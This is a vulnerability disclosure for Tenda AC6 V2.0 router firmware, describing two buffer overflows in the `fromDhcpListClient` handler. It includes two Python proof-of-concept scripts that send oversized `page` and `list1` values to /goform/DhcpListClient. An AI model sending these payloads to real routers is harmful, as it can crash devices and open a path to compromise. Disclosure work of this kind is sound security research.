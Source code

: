 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "fromDhcpListClient"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/2855)

Within the `fromDhcpListClient` function, users can craft a POST request to supply three parameters: `LISTLEN`, `page`, and `list_listcnt`. There are two distinct overflow vulnerabilities inside this function:

1. The `page` parameter is directly used in a `sprintf` call: `sprintf(gotopage, "/network/lan_dhcp_static.asp?page=%s", page);`. If the length of `page` exceeds the `gotopage` buffer's size of **256 bytes**, it will cause an overflow.
2. The `list1` parameter, whose content is controlled by `LISTLEN` , is copied using `strcpy(tmpstr, list + 1);`. If the length of `list` (starting from its second character) exceeds the `tmpstr` buffer's size of **256 bytes**, it will also lead to an overflow.

![image-20250618174727129](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618174727129.png)

```python
import requests
def send_payload(url, payload):
    params={
            'LISTLEN':b'0',
            'page':payload,}
    cookie={'password':'yectgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x500+b'\n'
url="http://192.168.1.1/goform/DhcpListClient"
send_payload(url, payload)

#another poc
import requests
def send_payload(url, payload):
    params={
            'LISTLEN':b'1',
            'page':'',
            'list1':payload,}
    cookie={'password':'yectgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x500+b'\n'
url="http://192.168.1.1/goform/DhcpListClient"
send_payload(url, payload)   
```

![image-20250618180317057](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618180317057.png)